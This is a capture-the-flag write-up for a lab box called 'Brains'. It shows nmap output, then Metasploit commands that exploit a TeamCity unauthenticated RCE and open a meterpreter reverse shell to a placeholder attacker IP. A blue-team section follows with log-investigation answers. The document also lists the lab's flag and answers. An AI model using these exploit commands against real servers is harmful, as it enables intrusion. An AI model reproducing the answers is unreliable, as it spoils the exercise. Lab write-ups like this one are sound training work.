 # Brains

### Red: Exploit the Server!
- What is the content of flag.txt in the user's home folder?<br />
Initial nmap scan shows port 22,80 and 50000 open:

      # Nmap 7.94SVN scan initiated Thu Oct 24 13:25:08 2024 as: /usr/lib/nmap/nmap --privileged -p22,80,50000 -sV -sC -oN scan 10.10.255.64
      Nmap scan report for 10.10.255.64
      Host is up (0.049s latency).
      
      PORT      STATE SERVICE  VERSION
      22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   3072 27:e9:31:1b:37:ff:f4:a6:28:12:b2:42:38:04:d9:02 (RSA)
      |   256 c7:92:82:3a:64:b7:97:51:4b:55:f1:03:1e:bf:71:a4 (ECDSA)
      |_  256 15:01:a2:88:de:0d:81:c5:62:ea:d9:e2:89:e7:96:02 (ED25519)
      80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
      |_http-title: Maintenance
      |_http-server-header: Apache/2.4.41 (Ubuntu)
      50000/tcp open  ibm-db2?
      | fingerprint-strings: 
      |   GetRequest: 
      |     HTTP/1.1 503 
      |     TeamCity-Node-Id: MAIN_SERVER
      |     Pragma: no-cache
      |     Expires: Thu, 01 Jan 1970 00:00:00 GMT
      |     Cache-Control: no-cache
      |     Cache-Control: no-store
      |     Set-Cookie: TCSESSIONID=269C95301AE7386AEC7E1239DFF521E9; Path=/; HttpOnly
      |     Content-Type: text/html;charset=UTF-8
      |     Date: Thu, 24 Oct 2024 11:25:29 GMT
      |     Connection: close
      |     <!--
      |     Page: maintenance-welcome
      |     Stage: APPLICATION_STARTING
      |     State revision: 26
      |     Timestamp: Thu Oct 24 11:25:29 UTC 2024
      |     [Stage description: Initializing TeamCity server components]
      |     <!DOCTYPE html>
      |     <html>
      |     <head>
      |     <title>TeamCity Maintenance &mdash; TeamCity</title>
      |     <link rel="shortcut icon" href="/favicon.ico" type="image/x-icon"/>
      |     <meta http-equiv="content-type" content="text/html; charset=UTF-8"/>
      |     <meta name="application-name" content="TeamCity"/>
      |     <meta name="description" content="Powerful Continuous Integration and Build Server"/>
      |     <link href="
      |   ibm-db2, ibm-db2-das: 
      |     HTTP/1.1 400 
      |     Content-Type: text/html;charset=utf-8
      |     Content-Language: en
      |     Content-Length: 435
      |     Date: Thu, 24 Oct 2024 11:25:29 GMT
      |     Connection: close
      |     <!doctype html><html lang="en"><head><title>HTTP Status 400 
      |     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
      |_    Request</h1></body></html>
      1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
      SF-Port50000-TCP:V=7.94SVN%I=7%D=10/24%Time=671A2EA9%P=x86_64-pc-linux-gnu
      SF:%r(GetRequest,BFD,"HTTP/1\.1\x20503\x20\r\nTeamCity-Node-Id:\x20MAIN_SE
      SF:RVER\r\nPragma:\x20no-cache\r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x2
      SF:000:00:00\x20GMT\r\nCache-Control:\x20no-cache\r\nCache-Control:\x20no-
      SF:store\r\nSet-Cookie:\x20TCSESSIONID=269C95301AE7386AEC7E1239DFF521E9;\x
      SF:20Path=/;\x20HttpOnly\r\nContent-Type:\x20text/html;charset=UTF-8\r\nDa
      SF:te:\x20Thu,\x2024\x20Oct\x202024\x2011:25:29\x20GMT\r\nConnection:\x20c
      SF:lose\r\n\r\n\n\n<!--\nPage:\x20maintenance-welcome\nStage:\x20APPLICATI
      SF:ON_STARTING\nState\x20revision:\x2026\nTimestamp:\x20Thu\x20Oct\x2024\x
      SF:2011:25:29\x20UTC\x202024\n\[Stage\x20description:\x20Initializing\x20T
      SF:eamCity\x20server\x20components\]\n-->\n\n\n\n\n\n<!DOCTYPE\x20html>\n<
      SF:html>\n\n<head>\n\n\x20\x20<title>TeamCity\x20Maintenance\x20&mdash;\x2
      SF:0TeamCity</title>\n\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20href=\"
      SF:/favicon\.ico\"\x20type=\"image/x-icon\"/>\n\x20\x20<meta\x20http-equiv
      SF:=\"content-type\"\x20content=\"text/html;\x20charset=UTF-8\"/>\n\x20\x2
      SF:0<meta\x20name=\"application-name\"\x20content=\"TeamCity\"/>\n\x20\x20
      SF:<meta\x20name=\"description\"\x20content=\"Powerful\x20Continuous\x20In
      SF:tegration\x20and\x20Build\x20Server\"/>\n\x20\x20<link\x20href=\"")%r(i
      SF:bm-db2-das,24E,"HTTP/1\.1\x20400\x20\r\nContent-Type:\x20text/html;char
      SF:set=utf-8\r\nContent-Language:\x20en\r\nContent-Length:\x20435\r\nDate:
      SF:\x20Thu,\x2024\x20Oct\x202024\x2011:25:29\x20GMT\r\nConnection:\x20clos
      SF:e\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><title>HTTP\x20St
      SF:atus\x20400\x20\xe2\x80\x93\x20Bad\x20Request</title><style\x20type=\"t
      SF:ext/css\">body\x20{font-family:Tahoma,Arial,sans-serif;}\x20h1,\x20h2,\
      SF:x20h3,\x20b\x20{color:white;background-color:#525D76;}\x20h1\x20{font-s
      SF:ize:22px;}\x20h2\x20{font-size:16px;}\x20h3\x20{font-size:14px;}\x20p\x
      SF:20{font-size:12px;}\x20a\x20{color:black;}\x20\.line\x20{height:1px;bac
      SF:kground-color:#525D76;border:none;}</style></head><body><h1>HTTP\x20Sta
      SF:tus\x20400\x20\xe2\x80\x93\x20Bad\x20Request</h1></body></html>")%r(ibm
      SF:-db2,24E,"HTTP/1\.1\x20400\x20\r\nContent-Type:\x20text/html;charset=ut
      SF:f-8\r\nContent-Language:\x20en\r\nContent-Length:\x20435\r\nDate:\x20Th
      SF:u,\x2024\x20Oct\x202024\x2011:25:29\x20GMT\r\nConnection:\x20close\r\n\
      SF:r\n<!doctype\x20html><html\x20lang=\"en\"><head><title>HTTP\x20Status\x
      SF:20400\x20\xe2\x80\x93\x20Bad\x20Request</title><style\x20type=\"text/cs
      SF:s\">body\x20{font-family:Tahoma,Arial,sans-serif;}\x20h1,\x20h2,\x20h3,
      SF:\x20b\x20{color:white;background-color:#525D76;}\x20h1\x20{font-size:22
      SF:px;}\x20h2\x20{font-size:16px;}\x20h3\x20{font-size:14px;}\x20p\x20{fon
      SF:t-size:12px;}\x20a\x20{color:black;}\x20\.line\x20{height:1px;backgroun
      SF:d-color:#525D76;border:none;}</style></head><body><h1>HTTP\x20Status\x2
      SF:0400\x20\xe2\x80\x93\x20Bad\x20Request</h1></body></html>");
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Port 80 is under mantainance. Port 50000 shows a teamcity login page.<br />
![image](https://github.com/user-attachments/assets/08916bae-3ac0-4d0d-bf2b-c42b11b5f21b)<br />
Teamcity is a CI/CD (continuous integration/delivery) server that supports code creation, testing and realease. Searching online for this version, I found out that it is vulnerable to anauthenticated RCE and that there'a metasploit module available. Here's the msfconsole commands to use: 

    use multi/http/jetbrains_teamcity_rce_cve_2024_27198
    set target 3
    set payload cmd/linux/http/x64/meterpreter/reverse_tcp
    set rhosts 10.10.255.64
    set rport 50000
    set fetch_writable_dir /tmp
    set set lhost YOUR_IP
    run
![image](https://github.com/user-attachments/assets/5779c2bb-663c-4745-a848-fba55a520139)<br />
`THM{faa9bac345709b6620a6200b484c7594}`


### Blue: Let's Investigate
- What is the name of the backdoor user which was created on the server after exploitation?<br />
![image](https://github.com/user-attachments/assets/0409b302-854f-4c39-a119-098649d0a753)<br />
`eviluser`
- What is the name of the malicious-looking package installed on the server?<br />
![image](https://github.com/user-attachments/assets/90f94f9b-6d74-409a-873d-77ec69b9ded3)<br />
`datacollector`
- What is the name of the plugin installed on the server after successful exploitation?<br />
Search `index=weblogs`
![image](https://github.com/user-attachments/assets/fdbed84c-5da2-47df-99d0-2542edcb6263)<br />
`AyzzbuXY.zip`
